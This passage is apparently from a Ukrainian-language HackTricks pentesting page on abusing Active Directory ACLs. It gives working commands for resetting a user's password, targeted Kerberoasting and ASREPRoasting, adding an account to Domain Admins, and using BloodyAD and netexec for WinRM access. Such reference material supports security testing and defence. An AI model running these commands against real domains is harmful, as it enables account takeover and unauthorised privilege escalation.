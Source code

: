 # Abusing Active Directory ACLs/ACEs

{{#include ../../../banners/hacktricks-training.md}}

**Ця сторінка здебільшого є підсумком технік з** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) **та** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges)**. Для докладніших відомостей див. оригінальні статті.**

## BadSuccessor


{{#ref}}
BadSuccessor.md
{{#endref}}

## **GenericAll Rights on User**

Це право надає атакуючому повний контроль над цільовим обліковим записом користувача. Після того як права `GenericAll` підтверджено за допомогою команди `Get-ObjectAcl`, атакуючий може:

- **Change the Target's Password**: Використовуючи `net user <username> <password> /domain`, атакуючий може скинути пароль користувача.
- **Targeted Kerberoasting**: Призначте SPN для облікового запису користувача, щоб зробити його kerberoastable, а потім використайте Rubeus і targetedKerberoast.py для витягання та спроби злому хешів ticket-granting ticket (TGT).
```bash
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:<username> /nowrap
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
```
- **Targeted ASREPRoasting**: Вимкнути pre-authentication для користувача, роблячи їхній обліковий запис вразливим до ASREPRoasting.
```bash
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```
## **GenericAll — права над групою**

Ця привілегія дозволяє атакуючому маніпулювати членством у групі, якщо він має права `GenericAll` на групу, наприклад `Domain Admins`. Після визначення distinguished name (DN) групи за допомогою `Get-NetGroup`, атакуючий може:

- **Додати себе до групи Domain Admins**: Цього можна досягти за допомогою прямих команд або використовуючи модулі, такі як Active Directory або PowerSploit.
```bash
net group "domain admins" spotless /add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
- З Linux ви також можете використовувати BloodyAD, щоб додати себе до довільних груп, якщо ви маєте над ними членство з правами GenericAll/Write. Якщо цільова група вкладена в “Remote Management Users”, ви відразу отримаєте доступ по WinRM на хостах, що враховують цю групу:
```bash
# Linux tooling example (BloodyAD) to add yourself to a target group
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p '<pass>' add groupMember "<Target Group>" <user>

# If the target group is member of "Remote Management Users", WinRM becomes available
netexec winrm <dc-fqdn> -u <user> -p '<pass>'
```
## **GenericAll / GenericWrite / Write on Computer/User**